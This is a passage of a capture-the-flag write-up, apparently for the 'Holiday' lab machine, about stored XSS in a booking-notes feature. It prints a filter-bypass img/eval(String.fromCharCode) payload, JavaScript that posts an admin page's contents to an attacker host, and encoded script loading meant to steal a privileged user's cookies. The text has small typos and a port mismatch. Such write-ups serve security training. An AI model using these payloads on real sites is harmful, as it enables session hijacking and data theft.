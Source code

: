 ll new notes added to a booking are reviewed approximately every one minute by a user with
admin privileges. There are several filter in place to prevent XSS and successful exploitation can
be tricky for some. The most reliable method seems to be using a malformed <img> tag
combined with eval(String.fromCharCode(...))
Example: `<img src="x/><script>eval(String.fromCharCode(CHARCODE_HERE));</script>">`

now i use this payload to ensure that `js`  i created as payload will run

```sh
var url = "http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65";
$.ajax({method: "GET", url: url,success: function(data)
{$.post("http://10.10.14.15:81/", data);}});
```

so we set a listenning on port 81 and a python server so as send the payload but first we have to converte what we would upload in the notes as a decimal with this.

```sh
ayload = '''document.write('<script src="http://10.10.14.15/holiday.js"></script>');'''

','.join([str(ord(c)) for c in payload])
```

![](/Linux/Linux-Hard/Holiday/Screenshots/decimal.png)

This is what we add in the notes so that it can execute the `js` and give us cookies of high privillage user.

```sh
<img src="/><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,53,58,56,48,48,48,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>" />
```

![](/Linux/Linux-Hard/Holiday/Screenshots/payload.png)
